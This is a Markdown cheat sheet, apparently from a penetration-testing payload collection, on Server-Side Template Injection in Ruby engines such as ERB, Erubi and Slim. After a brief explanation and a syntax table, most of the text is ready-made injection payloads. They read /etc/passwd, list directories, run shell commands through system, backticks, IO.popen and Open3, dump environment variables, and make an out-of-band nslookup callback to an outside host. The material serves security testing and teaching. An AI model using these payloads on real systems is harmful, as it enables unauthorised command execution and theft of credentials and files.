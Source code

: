 # Server Side Template Injection - Ruby

> Server-Side Template Injection (SSTI)  is a vulnerability that arises when an attacker can inject malicious code into a server-side template, causing the server to execute arbitrary commands. In Ruby, SSTI can occur when using templating engines like ERB (Embedded Ruby), Haml, liquid, or Slim, especially when user input is incorporated into templates without proper sanitization or validation.

## Summary

- [Templating Libraries](#templating-libraries)
- [Ruby](#ruby)
    - [Ruby - Basic injections](#ruby---basic-injections)
    - [Ruby - Retrieve /etc/passwd](#ruby---retrieve-etcpasswd)
    - [Ruby - List files and directories](#ruby---list-files-and-directories)
    - [Ruby - Remote Command execution](#ruby---remote-command-execution)
- [References](#references)

## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| Erb      | `<%= %>`   |
| Erubi    | `<%= %>`   |
| Erubis   | `<%= %>`   |
| HAML     | `#{ }`     |
| Liquid   | `{{ }}`    |
| Mustache | `{{ }}`    |
| Slim     | `#{ }`     |

## Ruby

### Ruby - Basic injections

**ERB**:

```ruby
<%= 7 * 7 %>
```

**Slim**:

```ruby
#{ 7 * 7 }
```

### Ruby - Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - List files and directories

```ruby
<%= Dir.entries('/') %>
```

### Ruby - Remote Command execution

Execute code using SSTI for **Erb**,**Erubi**,**Erubis** engine.

```ruby
<%=(`nslookup oastify.com`)%>
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

Execute code using SSTI for **Slim** engine.

```powershell
#{ %x|env| }
```

## References

- [Ruby ERB Template Injection - Scott White & Geoff Walton - September 13, 2017](https://web.archive.org/web/20181119170413/https://www.trustedsec.com/2017/09/rubyerb-template-injection/)
